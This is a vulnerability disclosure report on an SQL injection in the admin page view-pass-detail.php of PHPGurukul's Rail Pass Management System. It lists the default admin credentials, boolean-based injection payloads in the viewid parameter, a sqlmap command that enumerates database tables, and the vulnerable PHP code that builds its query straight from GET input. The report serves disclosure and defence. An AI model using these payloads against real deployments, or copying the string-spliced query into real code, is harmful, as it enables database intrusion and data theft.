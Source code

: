 # [Rail Pass Management System-SQL Injection-view-pass-detail.php]

## Basic Information

**[Bug Reporter]:**DiliLearngent

**[Application Vendors]:**`https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:**windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:**SQL Injection

**[Vulnerability Url]:**`http://localhost/rpms/admin/view-pass-detail.php?viewid=1`    

**[Vulnerability Location]:**/rpms/admin/view-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192806.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192829.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-pass-detail.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427165849.png)

**[code analysis]:**

/rpms/admin/view-pass-detail.php

```php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.